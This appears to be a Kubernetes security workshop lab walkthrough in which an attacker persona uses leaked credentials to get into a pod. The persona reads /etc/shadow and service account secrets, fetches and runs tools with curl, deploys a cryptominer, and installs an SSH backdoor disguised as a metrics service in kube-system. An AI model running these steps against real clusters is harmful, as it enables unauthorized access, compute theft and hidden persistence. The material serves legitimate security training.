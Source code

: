 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Initial Access

__Red__ purchased a bundle of leaked credentials online. One set of credentials appears to be for a publicly accessible kubernetes cluster. They've downloaded the creds and want to connect to the cluster to see what's available.

```console
id
```
```console
uname -a
```
```console
cat /etc/lsb-release /etc/redhat-release
```
```console
ps -ef
```
```console
df -h
```
```console
netstat -nl
```

Note that the kernel version doesn't match up to the reported OS, and there are very few processes running. This is probably a container.

Let's do some basic checking to see if we can get away with shenanigans. Look around the filesystem. Try downloading and running <a href="http://pentestmonkey.net/tools/audit/unix-privesc-check" target="_blank">a basic Linux config auditor</a> to see if it finds any obvious opportunities. Search a bit on https://www.exploit-db.com/ to see if there's easy public exploits for the kernel.

```console
cat /etc/shadow
```
```console
ls -l /home
```
```console
ls -l /root
```
```console
cd /tmp; curl https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

That's not getting us anywhere. Let's follow-up on that idea that it's maybe a container:

```console
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's managed by Kubernetes
* Some security features are not in use (userns)
* Seccomp is disabled, but a number of Syscalls are blocked
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
cat > bitcoinero.yml <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    run: bitcoinero
  name: bitcoinero
  namespace: dev
spec:
  replicas: 1
  revisionHistoryLimit: 2
  selector:
    matchLabels:
      run: bitcoinero
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      labels:
        run: bitcoinero
    spec:
      containers:
      - image: securekubernetes/bitcoinero:latest
        name: bitcoinero
        command: ["./moneymoneymoney"]
        args:
        - -c
        - "1"
        - -l
        - "10"
        resources:
          requests:
            cpu: 100m
            memory: 128Mi
          limits:
            cpu: 200m
            memory: 128Mi 
EOF

kubectl apply -f bitcoinero.yml
sleep 10
kubectl get pods
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f backdoor.yaml
sleep 10
echo "Save this IP for Attack Scenario #2"
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```
